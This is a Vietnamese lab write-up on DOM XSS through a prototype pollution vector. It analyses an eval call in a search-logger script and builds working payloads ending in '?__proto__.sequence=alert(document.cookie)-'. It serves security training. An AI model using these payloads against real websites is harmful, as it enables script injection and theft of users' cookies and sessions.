







# Writeup Lab: DOM XSS via an alternative prototype pollution vector

## Goal
Combine these to call alert().
## Khai thác
### Tìm nguồn chúng ta có thể sử dụng thêm thuộc tính tùy ý vào biến toàn cục Object.Prototype
> 1. Hãy thử chèn thuộc tính tùy ý thông qua chuỗi truy vấn đoạn URL tìm kiếm chúng ta <br>
Tải trọng
```
/?__proto__[foo]=bar
```
Lúc này chúng ta có thể thấy được chưa làm thuộc tính gây ô nhiễm tham số

Hãy cùng tìm kiếm thứ gì đó trong source 
```js
<script src='/resources/js/jquery_3-0-0.js'></script>
<script src='/resources/js/jquery_parseparams.js'></script>
<script src='/resources/js/searchLoggerAlternative.js'></script>
```
Chúng ta cùng đi vào phân tích tệp `/resources/js/searchLoggerAlternative.js` như sau:
```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
window.addEventListener("load", searchLogger);
```
Chúng ta có thể nhìn qua được có một cái `eval()` (chức năng nguy hiểm) cho phép thực thi.
```js
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```
Ngoài ra kết hợp lệnh `manager.sequence` thuộc tính này có thể là nguồn gốc (đầu vào do kẻ tấn công kiểm soát). Nếu chúng ta có thể làm ô nhiễm thuộc tính đổi tượng qua `manager.sequence` chúng ta có thể thực thi.
### Kết hợp các lệnh thực thi alert()
À mà quay trở lại khi chúng ta làm ô nhiễm thông qua [] nó k được bằng cách đó có thể chuyển đổi đối tải trọng <br>
```
?__proto__.foo=bar
```

Bây giờ thử tải trọng
```
?__proto__.sequence=data:,alert(1);
```
Lúc này bị thông báo lỗi


Chúng ta cùng kiểm tra và ở đoạn code nó được kiểm soát bởi 1 mẫu `a+1`<br>
```js
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```
Tức là khi chúng ta truyền `data:,alert(1)` được coi là tham số a và nó thực hiện + 1 phía sau kết quả `data:,alert(1);1` lúc này mẫu payload chúng ta vô nghĩa khiến không thể thực thi được. <br>
Và để khắc phục bỏ qua điều này chúng ta có thể sử dụng `-` lúc này `-1` khiến payload chúng ta hoàn chỉnh đưa vào function `eval()` thực thi <br>
Tải trọng cuối cùng
```
?__proto__.sequence=alert(document.cookie)-
```

